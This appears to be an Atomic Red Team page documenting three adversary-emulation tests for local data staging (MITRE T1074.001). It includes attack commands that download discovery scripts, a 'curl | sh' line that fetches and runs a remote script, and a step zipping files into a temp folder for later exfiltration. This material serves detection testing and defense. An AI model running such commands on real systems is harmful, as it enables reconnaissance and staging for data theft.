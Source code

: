 ```yaml
---
tags: [T1074_001, atomic_test]
filename: "[[T1074.001|T1074.001 - Data Staged: Local Data Staging]]"
---
```

# T1074.001 - Data Staged: Local Data Staging

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 107706a5-6f9f-451a-adae-bab8c667829f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 39ce0303-ae16-4b9e-bb5b-4f53e8262066





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `sh`! 


```sh
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | sh -s > #{output_file}
```

#### Cleanup Commands:
```sh
rm #{output_file}
```



#### Dependencies:  Run with `sh`!
##### Description: Check if curl is installed on the machine.
##### Check Prereq Commands:
```sh
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```sh
which apt && apt update && apt install -y curl || which pkg && pkg update && pkg install -y curl
```




<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** a57fbe4b-3440-452a-88a7-943531ac872a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path "#{input_file}" -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>
